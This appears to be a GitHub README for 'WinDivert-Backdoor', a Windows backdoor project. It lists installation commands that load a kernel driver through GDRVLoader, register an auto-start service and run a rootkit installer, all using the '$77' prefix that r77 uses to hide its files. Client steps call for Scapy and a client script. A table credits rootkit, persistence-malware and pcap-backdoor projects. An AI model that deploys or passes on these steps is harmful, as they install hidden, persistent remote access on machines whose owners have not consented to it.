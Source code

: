 # WinDivert-Backdoor
## Server
1. Install driver with GDRVLoader.exe </br>
`GDRVLoader.exe C:\$77folder\$77kernel.sys` 
3. Install service </br>
`sc create $77service binPath= "C:\$77folder\$77service.exe" start= auto`
5. Start service </br>
`sc start $77service`
6. Install rootkit </br>
`Install.exe`
## Client
1. [Install Scapy](https://scapy.readthedocs.io/en/latest/installation.html)
2. Download client.py script
3. Flourish

## References
| Link to Project                                                     | License                                                                                              |
|---------------------------------------------------------------------|------------------------------------------------------------------------------------------------------|
| https://github.com/zer0condition/GDRVLoader                         | None                                                                                                 |
| https://github.com/basil00/Divert                                   | GNU Lesser General Public License (LGPL) Version 3 or the GNU General Public License (GPL) Version 2 |
| https://github.com/cocomelonc/2022-05-09-malware-pers-4/tree/master | None                                                                                                 |
| https://github.com/r-a303931/pcap-backdoor                          | GNU Affero General Public License v3.0                                                               |
| https://github.com/bytecode77/r77-rootkit                           | BSD 2-Clause "Simplified" License                                                                    |
